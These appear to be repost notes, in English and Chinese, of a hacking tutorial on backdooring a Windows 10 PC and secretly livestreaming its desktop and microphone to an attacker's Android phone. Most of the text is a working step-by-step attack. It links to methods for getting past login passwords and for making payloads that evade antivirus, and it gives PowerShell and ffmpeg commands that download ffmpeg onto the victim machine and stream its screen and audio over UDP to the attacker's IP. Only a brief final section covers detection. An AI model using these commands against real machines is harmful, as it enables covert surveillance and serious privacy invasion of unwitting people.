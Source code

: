 ## How to Backdoor Windows 10 & Livestream the Desktop (Without RDP)

### Understanding the FFmpeg Attack [^1]

### Step 1: Backdoor the Target Windows 10 Computer

- [USB Rubber Ducky](https://null-byte.wonderhowto.com/collection/usb-rubber-ducky/)
- Bypass the Login Password  Ref : [StartUp目录](https://null-byte.wonderhowto.com/how-to/hacking-windows-10-break-into-somebodys-computer-without-password-exploiting-system-0183743/#jump-step5) 、[没有密码的情况下进入Windows 10计算机](https://null-byte.wonderhowto.com/how-to/hacking-windows-10-break-into-somebodys-computer-without-password-setting-up-payload-0183584/)
- USB Dead Drop Ref： [USB Dead Drop 攻击WPA2 Wi-Fi密码](https://null-byte.wonderhowto.com/how-to/hack-wpa2-wi-fi-passwords-using-jedi-mind-tricks-usb-dead-drops-0185290/)
- Email Attachment with an Undetectable Payload Ref: [创建无法检测的有效负载](https://null-byte.wonderhowto.com/how-to/hacking-windows-10-create-undetectable-payload-part-1-bypassing-antivirus-software-0185055/)
- Capture & Decrypt the Login Password Ref : [拦截NTLM哈希值](https://en.wikipedia.org/wiki/NTLM#NTLMv2)
- Social Engineering (Other Tactics)
- …

### Step 2: Set Up the UserLAnd App on Android [^2]

- Ref : [将没有root的Android手机变成攻击设备](https://null-byte.wonderhowto.com/how-to/android-for-hackers-turn-android-into-hacking-device-without-root-0189649/)
- [使用Android黑客攻击WPA2 Wi-Fi密码](https://null-byte.wonderhowto.com/how-to/hack-wpa2-wi-fi-passwords-using-android-without-cracking-0192242/)

### Step 3: Install FFmpeg in Kali on Android

`sudo apt-get update && sudo apt-get install ffmpeg`

### Step 4: Start the FFmpeg Listener from Android （192.168.0.208）

`screen ffmpeg -i udp://0.0.0.0:10001 /sdcard/Download/livestream.avi`

[学习使用Screen](https://null-byte.wonderhowto.com/how-to/hacking-windows-10-break-into-somebodys-computer-without-password-setting-up-payload-0183584/#jump-step4)

### Step 5: Install FFmpeg on the Backdoored Windows 10 Computer

`iwr -Uri 'https://ffmpeg.zeranoe.com/builds/win64/static/ffmpeg-20190506-fec4212-win64-static.zip' -Outfile $env:TEMP\ffmpeg.zip`

### Step 6: Unzip the Archive

`Expand-Archive -Path $env:TEMP\ffmpeg.zip -DestinationPath $env:TEMP\ffmpeg\`

`cd "$env:TEMP\ffmpeg\ffmpeg*\bin\"`

### Step 7: Livestream the Windows 10 Desktop

- Video Streaming Only

  `.\ffmpeg.exe -f gdigrab -i desktop -f dshow -f avi udp://192.168.0.208:10001`

- Audio Streaming Only

  `.\ffmpeg.exe -list_devices true -f dshow -i dummy` [^3]

  `.\ffmpeg.exe -f dshow -i audio="Microphone (Realtek High Definition Audio)" -f avi udp://192.168.0.208:10001`

- Video & Audio Streaming Simultaneously

  `.\ffmpeg.exe -f dshow -i audio="Microphone (Realtek High Definition Audio)":video="desktop" -f avi udp://192.168.0.208:10001`

### How to Protect Yourself from FFmpeg Attacks [^4]

- Search for Possibly Malicious Apps
- Use Task Manager to Spot Data-Stealing Apps
- Use Wireshark to Spot Data-Stealing Apps
  - Wireshark抓包
  - Follow UDP Stream
  - Show and save data as **Raw**
  - Save as ”livestream.avi” 文件后即可播放



[原文](https://null-byte.wonderhowto.com/how-to/android-for-hackers-backdoor-windows-10-livestream-desktop-without-rdp-0193190/)

---

[^1]: FFmpeg是一个多媒体框架，能够在Windows，macOS和基于Unix的发行版上加密，流式传输和播放大多数格式的视频。它是一个可移植的独立软件，这意味着它可以作为单个可执行文件运行，无需任何安装或配置
[^2]: UserLAnd是一款Android应用程序，可以在Android操作系统上安装Linux发行版，这不需要获取root权限或擦除Android设备
[^3]: 显示出内置于Windows 10计算机的可用输入接口 （摄像头、麦克风等）
[^4]: 防病毒软件不太可能抵御Windows 10上的这些类型的攻击。毕竟，FFmpeg不被视为恶意应用程序，并且它不会尝试打开端口或修改计算机上的敏感文件